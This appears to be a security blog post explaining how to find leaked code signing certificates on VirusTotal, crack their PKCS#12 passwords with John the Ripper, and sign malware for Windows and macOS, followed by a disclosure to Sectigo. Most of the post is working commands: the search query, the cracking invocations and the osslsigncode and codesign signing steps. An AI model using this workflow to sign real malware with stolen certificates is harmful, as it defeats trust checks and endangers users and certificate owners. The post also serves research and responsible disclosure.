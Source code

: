 ```yaml
---
layout: post
title: Finding and utilising leaked code signing certificates
subtitle: Code signing certificates sometimes unexpectedly end up online. In this blog post I describe how to find, crack, and use them to sign malware.
description: Using services such as GitHub or VirusTotal, it is possible to find leaked code signing certificates. For some, the password can be cracked, after which they can be used to sign malicious code. In this blog post I explain this process, including responsible disclosure measures.
keywords: leaked, code, signing, certificates, malware
author: Tijme Gommers
include_in_header: false
include_in_footer: false
show_in_post_list: true
robots: index, follow
---
```


**[TL;DR]** Using tools such as VirusTotal, it is possible to find leaked code signing certificates. For some, the password can be cracked, after which they can be used to sign malicious code. In this blog post I explain this process, including responsible disclosure measures.

<hr>

This blog post consists of 4 chapters. [Finding](#1-finding-certificates) leaked certificates, [cracking](#2-cracking-pkcs12-passwords) their passwords, using them to [sign malware](#3-signing-malware), and [reporting](#4-reporting-leaked-certificates) leaked certificates to certificate authorities.

### 1. Finding certificates

There are many ways to find code signing certificates online. If you're lucky, you'll find one that is still valid. In my journey, I mostly used VirusTotal, but it seems that platforms like [Grayhat Warfare](https://grayhatwarfare.com/){:target="_blank"}{:rel="noopener noreferrer"} and [GitHub](https://github.com/){:target="_blank"}{:rel="noopener noreferrer"} also have many certificates uploaded to them. We'll use VirusTotal in this blog post.

With the query below, you can find files with a byte sequence commonly observed in signing certificates. The sequence is often part of ASN.1 DER encoded files ([RFC7292](https://datatracker.ietf.org/doc/html/rfc7292){:target="_blank"}{:rel="noopener noreferrer"}). At offset 4, a version number should be present that always has the value 3. This is denoted by the `02 01 03`. The 4<sup>th</sup> byte in the sequence is `30`, which represents the start of a new sequence.

    content:{02 01 03 30}@4 NOT tag:msi AND NOT tag:peexe

The results can be downloaded via the VirusTotal GUI or API.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/search-results-virustotal.png"
    title="Search results on VirusTotal"
    album="finding-certificates"
    width="2878" 
    height="1084"
%}

I downloaded about 50 certificates that were [recently uploaded](https://www.virustotal.com/gui/search/content%253A%257B02%252001%252003%252030%257D%25404%2520NOT%2520tag%253Amsi%2520AND%2520NOT%2520tag%253Apeexe%2520AND%2520ls%253A5d%252B/files){:target="_blank"}{:rel="noopener noreferrer"} to VirusTotal.

### 2. Cracking PKCS#12 passwords

My go-to hash-cracking software is Hashcat. Unfortunately, it does not support cracking PKCS#12 files. John the Ripper *does* support PKCS#12. First, we need to extract a hash from our PKCS#12 file. This can be done using John's `pfx2john.py` Python script. I made a [few changes](https://gist.github.com/tijme/86edd06c636ad06c306111fcec4125ba){:target="_blank"}{:rel="noopener noreferrer"} to make the script compatible with Python 3.

    pfx2john.py certificate.pfx > certificate.hash

If you've generated hashes based on the certificates you found, you can crack them using John with the following arguments. In this example, we use `rockyou.txt` as a wordlist.

{% highlight bash %}
$ john --wordlist=rockyou.txt --format=pfx-opencl ./hashes/*

Using default input encoding: UTF-8
Loaded 13 password hashes with 13 different salts (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2)])
-- snip --
123              (7f61a5a51fe9eef15c9e2ddf03fe10c6.pfx)
123              (66a9882f1d8463501f7fc89b1a12700b.pfx)
                 (83bfdbd568b967baf24b7c44935b9a12.pfx)
test             (certificate.pfx)
-- snip --
Session completed.
{% endhighlight %}

> :warning: If John cannot load your hash, make sure to install the latest version of John from source (to ensure you have PKCS#12 support).

As you can see, some of the hashes got cracked quite easily. The password for the last one is `test`. For the cracked certificates, check if they're trusted and still valid (e.g. not revoked). For the trusted and valid ones, ensure that they have the `Code Signing` Object Identifier (OID): `1.3.6.1.5.5.7.3.3`. Now hopefully you have one left. You'll be able to use it to sign malware!

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/extended-key-usage-code-signing.png"
    title="Extended Key Usage: Code Signing"
    album="validating-certificates"
    width="2226" 
    height="604"
%}

PS: If you want to use a more extensive password list with John the Ripper, look for one on [Weakpass](https://weakpass.com/wordlist){:target="_blank"}{:rel="noopener noreferrer"}. You could try to use rules and masks as well. I've added two examples below for you to get started.

{% highlight bash %}
# With rules
./john --wordlist=rockyou.txt --format=pfx-opencl ./hashes/* --rules:OneRuleToRuleThemAll

# With mask
./john --mask=?1?1?1?1?1?1?1?1?1 -1=[A-z0-9\!\@] --format=pfx-opencl ./hashes/* -min-len=1
{% endhighlight %}

### 3. Signing malware

If you've found and cracked a valid and trusted signing certificate, you can use it to sign malware. I'll demonstrate signing malware for both Windows and MacOS.

**Windows**

To sign PE files, there is an amazing open source project called [osslsigncode](https://github.com/mtrojnar/osslsigncode){:target="_blank"}{:rel="noopener noreferrer"}. Once installed, run the following command to create a signed version of your malware.

{% highlight bash %}
osslsigncode sign -pkcs12 certificate.pfx -pass test -in malware.exe -out signed-malware.exe
Succeeded
{% endhighlight %}

To verify if the signature is valid and correctly applied, you can use `osslsigncode` as well.

{% highlight bash %}
osslsigncode verify signed-autoruns.exe

-- snip --
Authenticated attributes:
    Message digest algorithm: SHA256
    Message digest: C89F86DBE18BB37C44857F3535E5984DCA783610BDFEBF18F659F5275D8D5236
    Signing time: Jun  7 18:49:06 2023 GMT
    Microsoft Individual Code Signing purpose

-- snip --
Signature verification: ok

Number of verified signatures: 1
Succeeded
{% endhighlight %}

> :warning: Please note that in my experience `osslsigncode` does not check if a certificate has been revoked.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/signed-malware.png"
    title="Signed malware"
    album="signed-malware"
    width="1646" 
    height="578"
%}

Finally; enjoy your signed malware!

**MacOS**

If you're signing an existing (modified) app for MacOS, please first remove the existing signature.

{% highlight bash %}
codesign --remove-signature malicious.app
{% endhighlight %}

Afterwards, import the signing certificate into your keychain. Right-click it and create a new signing identity. Use a name of your choice.

{% 
    include lightbox.html 
    image="/img/finding-and-utilising-leaked-code-signing-certificates/sign-create-identity.png"
    title="Creating a signing identity"
    album="signing-malware"
    width="1682" 
    height="358"
%}

You can now use this identity to sign your malicious app.

{% highlight bash %}
codesign -s "your_identity" malicious.app
{% endhighlight %}

To check if everything worked, we verify the signature. If everything is okay, the command will not output anything. 

{% highlight bash %}
codesign --verify malicious.app
{% endhighlight %}

If something is wrong, an error will be shown. This is what the output looks like when, for example, your certificate is revoked.

{% highlight bash %}
codesign --verify malicious.app

malicious.app: CSSMERR_TP_CERT_REVOKED
In architecture: x86_64
{% endhighlight %}

### 4. Reporting leaked certificates

In the example above, the leaked certificate was issued by Sectigo. Sectigo, and any other certificate authority, provides ways to report abuse, including fraudulent or malicious use of certificates. I mailed Sectigo with the following details of the certificate that I found:

* VirusTotal link (including a link to malware signed by the certificate).
* Password.
* Serial number.
* SHA-256 hash.
* SHA-1 hash.

8 days later Sectigo stated that, upon continued investigation, they found that the signing certificate was indeed involved in malicious activity and has now been revoked.